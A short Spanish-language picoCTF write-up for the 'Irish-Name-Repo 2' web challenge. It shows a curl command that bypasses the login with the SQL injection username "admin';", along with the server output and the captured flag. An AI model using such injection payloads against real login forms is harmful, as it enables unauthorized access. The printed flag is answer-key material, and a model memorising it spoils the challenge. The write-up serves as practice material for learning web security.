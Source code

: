 # Irish-Name-Repo 2

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas
- The password is being filtered.

## Solución

```
eltetor14-picoctf@webshell:~$ curl -s  https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>eltetor14-picoctf@webshell:~$
```

## Bandera
picoCTF{m0R3_SQL_plz_aee925db}

## Notas adicionales
https://www.w3schools.com/sql/sql_injection.asp

## Referencias